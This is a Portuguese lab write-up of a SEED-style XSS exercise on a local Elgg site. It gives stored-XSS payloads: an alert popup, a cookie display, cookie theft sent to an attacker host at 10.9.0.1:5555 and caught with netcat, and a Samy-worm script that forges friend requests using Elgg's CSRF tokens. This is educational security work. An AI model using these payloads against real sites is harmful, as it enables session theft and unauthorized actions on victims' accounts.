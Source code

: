 ### Task 1


O objetivo desta tarefa é incorporar código Javascript no perfil do Elgg de um utilizador de forma a que quando um utilizador visualize o perfil desse utilizador o código Javascript seja executado e uma janela seja exibida.

ㅤㅤㅤ```<script>alert('XSS');</script>```

ㅤㅤㅤ<script>: abre uma tag "script".

ㅤㅤㅤalert(): cria uma janela pop-up com uma mensagem à nossa escolha, sendo esta <br/>ㅤㅤㅤcolocada como parametro da mesma.

- **1º passo:** dar login numa conta existente, neste caso utilizamos a conta da Alice
- **2º passo:** editar o campo brief description quando editamos o perfil, adicionando o código Javascript mencionado anteriormente
 
  <img width="704" alt="Screenshot 2023-05-02 at 14 15 47" src="https://user-images.githubusercontent.com/98234753/235677232-6743bace-bd3b-4ee3-ae71-e783c43df0be.png">

- **3º passo:** dar login noutra conta para verificar se o ataque XSS foi bem sucedido, neste caso, utilizamos a conta do Samy

  <img width="704" alt="Screenshot 2023-05-02 at 14 16 21" src="https://user-images.githubusercontent.com/98234753/235677397-669c6c89-e796-470c-8775-e94f6bba1296.png">

  
  Assim, sempre que alguém visitar o perfil da Alice irá ser aberta uma janela como na print anterior.

### Task 2
  
O objetivo desta tarefa é semelhante ao anterior, no entanto os cookies do utilizador sejam exibidos na janela de alerta.

ㅤㅤㅤ```<script>alert(document.cookie);</script>```

ㅤㅤㅤO procedimento é semelhante ao da tarefa anterior, no entanto o conteúdo do "alert()" é <br/> ㅤㅤㅤsubstituído pelos cookies do utilizador (document.cookie).
  
  <img width="703" alt="Screenshot 2023-05-02 at 14 19 16" src="https://user-images.githubusercontent.com/98234753/235678209-9abbe652-e363-4c86-86d6-f46f11eb7526.png">

  Resultado do ataque:
  
  <img width="701" alt="Screenshot 2023-05-02 at 14 19 51" src="https://user-images.githubusercontent.com/98234753/235678350-9a1f443a-ae36-41ca-845b-38feff736db5.png">

  
  **NOTA:** o utilizador logado vê as suas cookies, ou seja, o atacante não vê as cookies dos utilizadores, apenas as suas.

### Task 3
O objetivo desta tarefa é enviar os cookies do utilizador para o a atacante.Isto é feito por meio de inserção de uma tag HTML (<img>) que realiza um request que é enviado para a máquina do atacante (10.9.0.1; porta:5555)


ㅤㅤㅤ``` <script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’); ㅤㅤㅤ</script>ㅤㅤㅤ```

**document.write()**: escreve o conteúdo especificado no documento HTML
 
**img src=http://10.9.0.1:5555?c=**: especifica a tag de img a ser inserida onde o atributo src é definido como o endereço de IP do atacante e a porta.

**escape(document.cookie)**: é uma função que codifica a string fornecida(o valor da cookie armazenada pelo navegador)como um argumento numa forma segura para ser transmitida como um parametro URL.
 
![T3_a](https://user-images.githubusercontent.com/123839132/235759162-6dec205f-f8d9-4990-b10b-f7554bf101ec.png)

Ao utilizar o seguinte comando ``` nc -lknv 5555 ``` conseguimos ter acessoa às cookies que são recebidas utilizando o prgrama netcat.
Na imagem abaixo, conseguimos verificar que o samy ao visitar o perfil da alice faz com que a alice tenha acesso às cookies do samy.

![T3_b](https://user-images.githubusercontent.com/123839132/235759353-b1f9a08f-1a1c-4737-b88b-970f052d4e7e.png)

### Task 4
Nesta tarefa pretendemos realizar um ataque semelhante ao que o Samy fez ao MySpace em 2005. O objetivo é a exploração da vulnerabilidade worn XSS com o objetivo de adicionar o “Samy” como amigo aos usuários que visitarem o seu perfil.

Temos a ferramenta de inspeção HTTP do Firefox que pode-nos ajudar a obter informações, ajudando a exibir o conteúdo de qualquer **HTTP Request** enviada pelo navegador.

Primeiramente temos que verificar como os pedidos de amizade são feitos, então inspecionamos o perfil do Samy de forma a recolher o **HTTP Request** associado ao adicionar o utilizador Samy:
 
``` http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ ```
**Nota:** Conseguimos verificar que o ID do Samy é o 59.

Foi nos fornecido um código JavaScript com o objetivo de enviar a mesma solicitação HTTP que obtivemos anteriormente sempre que alguém visitasse o perfil do Samy.

* Depois de analisar o código fornecido, primeiramente mudamos a variável “**sendurl**” e atribuímos à mesma o URL para adicionar o Samy como amigo: ```http://www.seed-server.com/action/friends/add?friend=59```; 
 
* Os parâmetros **ts** e **token** são necessários para autenticar e validar a nossa solicitação de adicionar o Samy como amigo. Adicionamos assim ao nosso URL usando o operador ```+``` para concatenar as strings;

* Essas variáveis foram definidas anteriormente no código e contêm os parâmetros ```__elgg_ts``` e ```__elgg_token```;

* Assim ao utilizar o ```ts + token``` estamos a inserir os valores dessas variáveis na URL, para que o nosso HTTP Request inclua os parâmetros corretos e seja autenticada corretamente pelo servidor;

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
 
  
 ![T4_a](https://user-images.githubusercontent.com/123839132/236896453-186b7f60-c4ce-409d-92da-d8625c4e1280.png)

Entramos na conta do Samy e o script foi colocado em "About Me" em modo texto:
 ![T4_b](https://user-images.githubusercontent.com/123839132/236896463-cc892031-8a18-4325-a544-291258400696.png)

 ![T4_c](https://user-images.githubusercontent.com/123839132/236896476-bf4a2524-1dc4-4cae-b821-c18312370c14.png)
 
 ![T4_d](https://user-images.githubusercontent.com/123839132/236896534-10e40c12-ffa8-4df5-8f46-2eaf44456069.png)
 
 Assim dando login na conta da Alice, observamos que a Alice é automaticamente adicionada como amigo da Samy, mesmo não tedo enviado um pedido de amizade.
 
 ![T4_e](https://user-images.githubusercontent.com/123839132/236896544-8bed1689-6db8-4fd2-ab3a-729695f91b63.png)

**Questão 1: Explique o propósito das Linhas ➀ e ➁, por que elas são necessárias?** 

A linha ➀ inclui o timestamp (__elgg_ts), enquanto a linha ➁ inclui o token elgg (__elgg_token). Esses parâmetros são necessários para autenticar e validar o pedido HTTP, garantindo com que o servidor considere que a origem deste é a vitima.

**Questão 2: Se o aplicativo Elgg fornecer apenas o modo Editor para o campo "Sobre mim", ou seja, você não pode alternar para o modo Texto, ainda pode iniciar um ataque bem-sucedido?**

Se a aplicação Elgg fornecer apenas o modo de edição para o campo “Sobre Mim” e não permitir alterar o modo de texto, é difícil lançarmos um ataque bem-sucedido. Isto ocorre porque o modo editor geralmente filtra ou desabilita a capacidade de inserir código diretamente, podendo assim dificultar a execução de um ataque bem-sucedido. 
 
 
 
 
 
